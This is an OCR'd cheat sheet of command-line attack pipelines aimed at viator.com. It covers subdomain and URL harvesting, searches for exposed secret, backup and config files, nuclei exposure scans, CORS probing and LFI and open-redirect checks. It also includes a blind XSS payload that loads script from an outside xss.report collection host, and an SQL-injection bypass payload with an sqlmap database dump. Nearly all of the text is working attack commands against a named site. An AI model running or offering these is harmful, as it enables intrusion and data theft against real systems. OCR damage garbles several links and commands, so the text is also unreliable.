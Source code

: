 
subfinder -d [viator.com](https://viator.com/ "https://viator.com/") -all -recursive > subdomain.txt  
  
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt  
  
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt  
  
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"  
  
cat allurls.txt | grep -E "\.js$" >> js.txt  
  
cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/  
  
echo [www.viator.com](https://www.viator.com/ "https://www.viator.com/") | katana -ps | grep -E "\.js$" | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/ -c 30  
  
dirsearch -u [https://www.viator.com](https://www.viator.com/ "https://www.viator.com/") -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,[http://sql.zip](http://sql.zip/ "http://sql.zip/"),sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json  
  
subfinder -d [viator.com](https://viator.com/ "https://viator.com/") | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=[https://xss.report/c/coffinxp](https://xss.report/c/coffinxp "https://xss.report/c/coffinxp")></script>' -parameters  
  
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl  
  
python3 [corsy.py](https://corsy.py/ "https://corsy.py/") -i /home/coffinxp/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"  
  
nuclei -list subdomains_alive.txt -t /home/coffinxp/Priv8-Nuclei/cors  
  
nuclei -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech  
  
cat allurls.txt | gf lfi | nuclei -tags lfi  
cat allurls.txt | gf redirect | openredirex -p /home/coffinxp/openRedirect  
  
@lostsec   
watch recent video that i uploaded in youtube

Sometimes bypassing SQL can be a problem, you can try this way  
payload ;  
  
8%20or%207250%3d0725  
  
sqlmap ;  
sqlmap -u 'h t t p :// domain[.]com / anyfile.asp?id_test=8%20or%207250%3d07250' --dbs --random-agent ignore=500 - -code=200 -T tablename --columns -- no-cast

